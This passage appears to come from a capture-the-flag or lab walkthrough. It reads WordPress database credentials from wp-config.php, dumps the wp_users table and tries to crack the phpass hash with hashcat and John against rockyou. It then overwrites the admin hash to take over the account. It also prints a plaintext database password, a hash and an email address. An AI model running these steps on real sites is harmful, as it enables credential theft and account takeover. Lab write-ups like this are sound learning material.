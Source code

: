 


4.2. Database Extraction

View database credentials in wp-config.php:
```bash
define('DB_USER', 'wordpressuser');
define('DB_PASSWORD', 'LittleYellowLamp90!@');
```

Access the database:
```bash
mysql -u wordpressuser -p
show databases;
use blog;
select * from wp_users;
```

Output:
```bash
1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          
user pass: $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/
```

Try to Decode:
```bash
nano hash.txt
```

Paste: 
```bash
$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/
```
```bash
hashcat hash.txt --identify (phpass)
hashcat hash.txt -m 400 /usr/share/wordlists/rockyou.txt
```
Or
```bash
john --wordlist=/root/Tools/wordlists/rockyou.txt hash.txt
```
Check the cracked password:
```bash
john --show hash.txt
```

Unfortunately, this type of hash is designed to be one-way and cannot be directly decoded back to the original password. The only way to "crack" the hash is by performing a brute force attack or dictionary attack to guess the original password.

Change Admin Pass:
https://codebeautify.org/wordpress-password-hash-generator
add: 12345678
generated: $P$B/cU.bDA/I5Kp70O2cV0EJ/Oc14Qpg.
```bash
mysql> UPDATE wp_users SET user_pass="$P$B/cU.bDA/I5Kp70O2cV0EJ/Oc14Qpg." WHERE user_nicename="bjoel";
```

Admin user:
bjoel

Admin Password:

changed to: 12345678

Login WP as Admin: Successfully





